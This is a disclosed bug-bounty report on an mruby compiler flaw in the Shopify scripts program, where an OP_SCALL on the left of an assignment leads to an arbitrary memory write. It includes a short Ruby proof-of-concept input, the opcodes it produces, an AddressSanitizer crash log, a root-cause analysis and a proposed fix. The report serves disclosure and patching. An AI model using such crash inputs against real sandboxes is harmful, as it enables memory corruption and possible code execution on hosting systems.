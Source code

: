 # OP_SCALL in LHS of a OP_ASGN resulting in arbitrary memory write

## Report Details
- **Report ID**: 226200
- **URL**: https://hackerone.com/reports/226200
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-05-04T21:23:52.791Z
- **Disclosed**: 2017-05-30T14:36:40.301Z

## Reporter
- **Username**: avisaven
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
# PoC

	x = 0x4242422a
	a = *(_&.__=0)
	a = *(_&.__=0)
    
# Generated Opcodes
	irep 0x60c000014440 nregs=5 nlocals=3 pools=1 syms=0 reps=0
	file: crashes/b.rb
	    3 000 OP_LOADL	R1	L(0)	; 1111638570	; R1:x
	    4 001 OP_ARRAY	R3	R3	0
	    4 002 OP_LOADI	R4	0
	    4 003 OP_ARYCAT	R2	R3		; R2:a
	    5 004 OP_ARRAY	R2	R2	0	; R2:a R2:a
	    5 005 OP_LOADI	R3	0
	    5 006 OP_ARYCAT	R1	R2		; R1:x R2:a
	    5 007 OP_MOVE	R2	R1		; R2:a R1:x
	    5 008 OP_STOP

# AddressSanitizer

    unknown lhs 30
    unknown lhs 30
    ASAN:SIGSEGV
    =================================================================
    ==17426==ERROR: AddressSanitizer: SEGV on unknown address 0x000042424242 (pc 0x00010e982109 bp 0x7fff5127b430 sp 0x7fff5127b350 T0)
        #0 0x10e982108 in ary_concat array.c:265
        #1 0x10e981faf in mrb_ary_concat array.c:284
        #2 0x10eb9d788 in mrb_vm_exec vm.c:2404
        #3 0x10eb71298 in mrb_vm_run vm.c:860
        #4 0x10ebaea21 in mrb_top_run vm.c:2733
        #5 0x10ecc118a in mrb_load_exec parse.y:5780
        #6 0x10ecc1ef1 in mrb_load_file_cxt parse.y:5789
        #7 0x10e97cdfc in main mruby.c:227
        #8 0x7fff8f70d5c8 in start (/usr/lib/system/libdyld.dylib+0x35c8)
        #9 0x1  (<unknown module>)

    AddressSanitizer can not provide additional info.
    SUMMARY: AddressSanitizer: SEGV array.c:265 ary_concat
    ==17426==ABORTING
    [2]    17426 abort      ./mruby/bin/mruby crashes/b.rb

# Analysis
In `gen_assignment`, `return;` is used for the `default` case when doing the code generation (line 1029 in mrbgems/mruby-compiler/core/codegen.c). When the LHS is an `NODE_SCALL` it goes to the base case. It returns and never gets to the bottom line `if (val) push(val);` which is necessary for the rest of the code to use the correct register. Because it is not pushed, it uses the register below it in the stack, which allows us to manipulate arguments in an unchecked manner to other opcodes.

If this is used in conjunction with `OP_ARYCAT` from the splat operator, one could point the destination of OP_ARYCAT to a fake RArray with any arbitrary memory as the ptr, resulting in a memory write (I'm currently experimenting with this to corrupt strings and get code execution). 

# Solution
In order to fix this, either having the error for improper LHS code generation should either be fatal and kill the program, or switching `return;` to `break;` will fix the error. However, in the future, there should be some level of verification the the destination of `OP_ARYCAT` is actually an RArray to prevent it being used in memory corruptions.

# Versions Affected

The code above was tested on the latest master. The bug itself appears to have been created in commit `88cd807379152ea3fec5f534e5f4d6ebebd53982`.

## Attachments
No attachments
